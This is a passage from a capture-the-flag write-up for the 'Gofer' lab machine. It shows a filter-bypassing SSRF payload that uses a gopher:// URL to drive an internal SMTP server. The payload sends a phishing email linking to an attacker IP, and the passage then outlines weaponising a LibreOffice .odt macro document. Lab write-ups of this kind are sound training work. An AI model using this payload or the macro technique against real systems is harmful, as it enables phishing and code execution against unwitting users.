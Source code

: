 After several attempts, the following payload bypassed all filters in place:

```http
POST /index.php?url=gopher://0:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM%3A%3Ctbuckley@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%20<url+http%3a//10.10.15.14/ssrf-poc>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a. HTTP/1.1
Host: proxy.gofer.htb
```

Which translates to:

```smtp
HELO gofer.htb
MAIL FROM:<tbuckley@gofer.htb>
RCPT TO:<jhudson@gofer.htb>
DATA
From: [Hacker] <hacker@site.com>
To: <jhudson@gofer.htb>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: AH AH AH

You didn't say the magic word ! <url+http://10.10.15.14/ssrf-poc>


.
QUIT
```

![](screenshots/10-ssrf-poc.png)

This confirmed that **"jhudson"** was indeed clicking malicious links. The **"Wget"** in the User-Agent header also confirmed that whatever file that was served was being downloaded.

Knowing that the host machine is using LibreOffice, it's likely that the user could download a **".odt"** with a malicious script and open it.

For this attack, one can download LibreOffice and generate a script. More information about this here: https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html

If downloading LibreOffice is not possible, one can download a **".odt"** file, **"unzip"** it, modify the contents of the script located in **"./Basic/Standard/{script-name}.xml"**, and **"zip"** the file again. A sample file **"exploit.odt"** has been uploaded to this repository for your convenience.
